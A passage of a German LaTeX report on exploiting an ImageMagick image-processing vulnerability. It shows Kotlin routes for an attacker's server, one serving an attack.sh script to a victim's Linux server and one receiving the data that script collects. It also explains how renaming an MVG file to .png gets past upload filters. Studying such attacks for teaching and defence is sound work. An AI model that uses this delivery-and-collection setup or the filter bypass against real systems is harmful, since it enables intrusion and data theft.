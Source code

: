 \clearpage


\begin{lstlisting}[language=Kotlin, caption=GET /attack Route,label={lst:attackroute}]
get("/attack") {
    var attackSH = getResourceContent("static/attack.sh")
    attackSH = attackSH.replace("\r\n", "\n")
            .replace("\r", "\n")
    call.respondText(attackSH)
}
\end{lstlisting}
\vspace{5mm}

Die GET-Route holt sich den Inhalt der attack.sh Datei und gibt diesen an den Aufrufer als Response zurück.
Wir gehen in unserem Beispiel davon aus, dass das Opfer die Website auf einem Linux Server betreibt.
Linux nutzt das Line-Ending \\n.
Wird der Angreifer-Server auf einem Windows-PC ausgeführt, müssen die Windows-Zeilenumbrüche noch ersetzt werden, damit der Inhalt vom Linux-Server interpretiert werden kann.


\begin{lstlisting}[language=Kotlin, caption=POST /report Route,label={lst:portreport}]
post("/report") {
    val parameters = call.receiveParameters()
    println("${parameters["key"]} => ${parameters["value"]}")

    call.respondText("OK")
}
\end{lstlisting}
\vspace{5mm}

In diesem Beispiel, werden die Parameter, also Informationen, die vom attack.sh Script gesammelt und zum Server gesendet werden, auf der Console des Servers ausgegeben.
Weiter könnte man sich ein loggen in einer Datenbank beziehungsweise eine Liveansicht über Websockets vorstellen.

\subsubsection{Umgehen von Uploadbeschränkungen}

Eine erste Idee der Verteidigung wäre, den Upload auf Dateien mit einer gewissen Datei-Endung zu beschränken.
(z.B. Nur PNG-Dateien)
Dieser Fix kann aber einfach umgangen werden, indem man die mvg-Datei zu einer png-Datei umbenennt.
Da ImageMagick den Dateitypen anhand des Inhalts errät, ist es egal, wie die Datei selbst heißt.
Sie Schwachstelle kann somit trotzdem noch ausgenutzt werden.